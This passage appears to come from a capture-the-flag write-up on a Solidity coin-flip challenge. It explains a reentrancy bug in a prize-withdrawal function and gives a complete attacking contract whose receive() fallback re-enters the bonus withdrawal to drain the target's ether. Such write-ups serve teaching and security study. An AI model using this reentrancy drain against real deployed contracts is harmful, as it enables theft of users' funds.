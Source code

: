 But let's recall what we learned earlier: `withdrawPrizeMoney` isn't actually how we earn money, as by itself it can only get us back to our starting balance. Let's then look at `withdrawFirstWinPrizeMoneyBonus`:
```solidity
function withdrawFirstWinPrizeMoneyBonus() external {
        require(
            !claimedPrizeMoney[msg.sender],
            "You have already claimed the first win bonus"
        );
        playerPool[msg.sender] += 1 ether;
        withdrawPrizeMoney(msg.sender);
        claimedPrizeMoney[msg.sender] = true;
    }
```
And here we have 3 steps: we increment the pool, withdraw the money, and **then** make it so it can't be called by the same address again. We found our bug!

Since our number of wins doesn't get reset, we as long as we call `withdrawFirstWinPrizeMoneyBonus` before `withdrawPrizeMoney` returns, we'll first get what we paid in + 1 ether, and then additional 1 ether with each call.

We still need to get three wins though. Without exploiting the "random" number generator, we can just notice that it's not that hard to do statistically. It's 3 coin flips - so there are just 2³ equally possible permutations, which means just guessing heads has 1/8 chance of working, so we just need to try for a bit. It'll cost us some ether, but we'll get it back anyway :)

Let's write the attacking contract then:
```solidity
contract IntendedSolution {
    RollsRoyce public target;
    constructor (address payable _target) payable {
        target = RollsRoyce(_target);
    }
    function guess() public payable returns (uint) {
        require(address(this).balance >= 1, "this contract needs at least 1 ether to work");
        target.guess{value: 1 ether}(RollsRoyce.CoinFlipOption.HEAD);
        target.revealResults();
    }
    function withdrawPrizeMoney() public {
        target.withdrawFirstWinPrizeMoneyBonus();
    }
    receive() external payable {
        if (address(target).balance > 0) {
            withdrawPrizeMoney();
        }
    }
    function getBackOurMoney(address payable recipient, uint256 amount) public {
         (bool success, ) = recipient.call{value: amount}("");
    }
    function balance() public view returns (uint256) {
        return address(this).balance;
    }
    function targetBalance() public view returns (uint256) {
        return address(target).balance;
    }
}
```
